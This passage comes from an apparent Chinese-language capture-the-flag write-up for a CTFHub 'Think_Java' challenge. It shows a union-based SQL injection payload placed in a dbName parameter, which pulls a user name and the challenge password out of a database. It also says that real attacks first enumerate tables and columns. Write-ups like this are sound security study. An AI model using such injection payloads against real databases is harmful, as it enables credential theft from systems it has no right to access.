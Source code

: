 ![发现数据库名](./Think_Java/发现数据库名.png)

得到用户名： ctfhub。

这里的uer，name都是猜测的，如果是实战情况下，要先获取表名，载获取列名，然后再获取对应列的信息。

![获得用户名](./Think_Java/获得用户名.png)

`dbName=myapp?a=' union select (select pwd from user)#` 得到密码。获取密码：`ctfhub_22327_5050`。

![获得密码](./Think_Java/获得密码.png)
